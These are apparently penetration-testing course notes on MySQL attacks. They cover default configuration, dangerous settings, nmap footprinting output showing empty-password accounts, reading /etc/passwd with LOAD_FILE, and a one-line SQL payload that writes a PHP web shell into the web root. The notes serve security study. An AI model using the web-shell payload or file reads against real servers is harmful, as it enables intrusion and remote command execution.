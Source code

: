 # MYSQL attacks

### Default Configuration

```shell-session
sudo apt install mysql-server -y
```

```shell-session
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

```shell-session
[client]
port		= 3306
socket		= /var/run/mysqld/mysqld.sock

[mysqld_safe]
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
nice		= 0

[mysqld]
skip-host-cache
skip-name-resolve
user		= mysql
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
port		= 3306
basedir		= /usr
datadir		= /var/lib/mysql
tmpdir		= /tmp
lc-messages-dir	= /usr/share/mysql
explicit_defaults_for_timestamp

symbolic-links=0

!includedir /etc/mysql/conf.d/
```

### Dangerous Settings

| **Settings**       | **Description**                                                                                              |
| ------------------ | ------------------------------------------------------------------------------------------------------------ |
| `user`             | Sets which user the MySQL service will run as.                                                               |
| `password`         | Sets the password for the MySQL user.                                                                        |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.            |
| `debug`            | This variable indicates the current debugging settings                                                       |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations.                              |

### Footprinting the Service

```shell-session
 sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 00:53 CEST
Nmap scan report for 10.129.14.128
Host is up (0.00021s latency).

PORT     STATE SERVICE     VERSION
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-brute: 
|   Accounts: 
|     root:<empty> - Valid credentials
|_  Statistics: Performed 45010 guesses in 5 seconds, average tps: 9002.0
|_mysql-databases: ERROR: Script execution failed (use -d to debug)
|_mysql-dump-hashes: ERROR: Script execution failed (use -d to debug)
| mysql-empty-password: 
|_  root account has empty password
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26-0ubuntu0.20.04.1
|   Thread ID: 13
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, SupportsTransactions, Speaks41ProtocolOld, LongPassword, DontAllowDatabaseTableColumn, Support41Auth, IgnoreSigpipes, SwitchToSSLAfterHandshake, FoundRows, InteractiveClient, Speaks41ProtocolNew, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: YTSgMfqvx\x0F\x7F\x16\&\x1EAeK>0
|_  Auth Plugin Name: caching_sha2_password
|_mysql-users: ERROR: Script execution failed (use -d to debug)
|_mysql-variables: ERROR: Script execution failed (use -d to debug)
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:00:00:00:00:00 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds
```

### MySQL - Read Local Files in MySQL

```shell-session
 select LOAD_FILE("/etc/passwd");
```

```shell-session
+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<SNIP>
```

### Write Local Files

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

* In `MySQL`, a global system variable [secure\_file\_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar\_secure\_file\_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD\_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function\_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv\_file) privilege.
* `secure_file_priv` may be set as follows
  * If empty, the variable has no effect, which is not a secure setting.
  * If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
  * If set to NULL, the server disables import and export operations.
* In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

**MySQL - Secure File Privileges**

```shell-session
 show variables like "secure_file_priv";
```

### User Defined Functions

* `MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL
  * there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib\_mysqludf\_sys).
  * It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.
